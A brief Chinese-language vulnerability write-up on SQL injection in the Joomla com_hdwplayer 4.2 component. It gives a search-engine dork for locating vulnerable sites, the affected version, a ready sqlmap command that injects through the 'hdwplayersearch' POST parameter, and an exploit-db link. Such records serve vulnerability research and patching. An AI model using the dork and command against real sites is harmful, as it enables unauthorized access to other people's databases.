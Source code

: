 ```yaml
---
title: Joomla! com_hdwplayer 4.2 - 'search.php' sql注入
id: zhfly3001
---
```


# Joomla com_hdwplayer 4.2 - 'search.php' sql注入

## 一、漏洞简介

关键字:inurl:"index.php?option=com_hdwplayer"

## 二、漏洞影响

com_hdwplayer 4.2

## 三、复现过程

```
python ./sqlmap.py -u "http://127.0.0.1/joomla/index.php" --method=POST --random-agent --data "option=com_hdwplayer&view=search&hdwplayersearch=xxx" --level=5 --risk=3 --dbms=mysql -p hdwplayersearch 
```

## 参考链接

> https://www.exploit-db.com/exploits/48242